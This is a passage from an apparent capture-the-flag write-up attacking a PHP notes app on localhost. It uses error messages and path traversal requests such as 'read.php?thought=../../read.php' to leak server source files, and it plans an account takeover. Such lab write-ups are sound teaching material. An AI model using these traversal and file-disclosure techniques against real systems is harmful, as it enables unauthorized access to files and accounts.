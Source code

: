 ```
Fatal error: Uncaught exception 'Exception' with message 'ID exceeds maximum length' in /var/www/html/storage/fsmodel.php:39 Stack trace: #0 /var/www/html/read.php(7): FSModel::load('354ecf76c94067c...') #1 {main} thrown in /var/www/html/storage/fsmodel.php on line 39
```

Not an SQL error, but definitely interesting. IDs for thoughts have a maximum length. Do they have a minimum length? Supply a one-character thought ID to find out. `http://127.0.0.1/read.php?thought=3`

```
Fatal error: Uncaught exception 'Exception' with message 'Could not find storage at /var/www/html/data/Thought/3' in /var/www/html/storage/fsmodel.php:45 Stack trace: #0 /var/www/html/read.php(7): FSModel::load('3') #1 {main} thrown in /var/www/html/storage/fsmodel.php on line 45
```

Very interesting. It seems the programmer has implemented their own filesystem-based database for this app. Seems like the kind of thing which could be breakable. There are several other important pieces of information this error message gives us:

* Thoughts are stored in `/var/www/html/data/Thought/`
* Thought IDs are appended to this path without much, if any, validation
* The PHP script being executed is at `/var/www/html/read.php`

Trying to read files in the `/data` directory over HTTP unfortunately doesn't work.

Can we trick `read.php` into displaying it's own source? If we request `http://127.0.0.1/read.php?thought=../../read.php` we get the following (it's output as HTML, so I've reformatted it to have nice newlines and indentation).

```php
<?php
require('checks.php');
require_once('storage/thought.php');
require_once('storage/user_thought.php');
require_once('storage/user.php');
$thought = Thought::load($_GET['thought']);
$user = NULL;
$edge = array_values(UserThoughtEdge::withThought($thought->getField('id')))[0];
if ($edge != NULL) {
	$author = User::load($edge->getField('user'));
}
$title = $thought->getPreview(10);
require('_header.php');
?><h1>Thought by <?php echo $author ? $author->getField('id') : 'someone'; ?></h1>
<div id='thought'>
	<?php echo htmlspecialchars($thought->getField('data')); ?>
</div>
<?php require('_footer.php');
```

We also know the locations of other PHP files, and we can read them too. We can also request `http://127.0.0.1/storage/` to get a list of files which are used to represent data. We need to use our read.php exploit to read them though. So far we've been limited by the fact that our user hasn't been verified by an admin, so let's see if there's any way to make our user verified or to take over the account of another user. (Also, if you read `index.php` you'll see that a flag is dumped if the user who accesses the page is verfied). If we read `storage/user.php` we get this (again, reformatted):
